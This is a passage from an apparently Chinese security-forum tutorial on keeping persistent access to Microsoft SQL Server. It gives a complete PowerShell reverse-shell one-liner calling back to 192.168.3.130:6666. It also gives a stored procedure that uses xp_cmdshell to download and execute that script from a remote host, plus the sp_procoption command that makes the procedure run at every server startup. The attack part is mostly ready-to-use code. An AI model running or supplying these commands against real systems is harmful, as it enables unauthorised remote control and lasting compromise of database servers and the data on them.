 这里假设 xp\_cmdshell 已被开启，选择使用 nishang 中的 Invoke-PowerShellTcpOneLine.ps1 脚本进行反弹shell

```php
$client = New-Object System.Net.Sockets.TCPClient("192.168.3.130",6666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

创建存储过程 powershell 远程调用脚本

```php
CREATE PROCEDURE test_sp
AS
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(\"http://192.168.3.133:8081/Invoke-PowerShellTcpOneLine.ps1\")"'
GO
```

我们现在将此存储过程移至启动阶段，因为我们希望它在服务器启动后立即执行

```php
EXEC sp_procoption @ProcName = 'test_sp'
, @OptionName = 'startup'
, @OptionValue = 'on';
```

查询启动中拥有的存储过程，已经添加成功

```php
SELECT * FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-ff6a9f46ccd521b62c840b6959939d28f9221b02.png)  
将 sqlserver 服务重新启动，成功反弹 shell  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-70404a99e80ab0f24b2dbc866fe73f3218a78ac1.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-7aa5af185fae41dc21709b86fb31e0e094728767.png)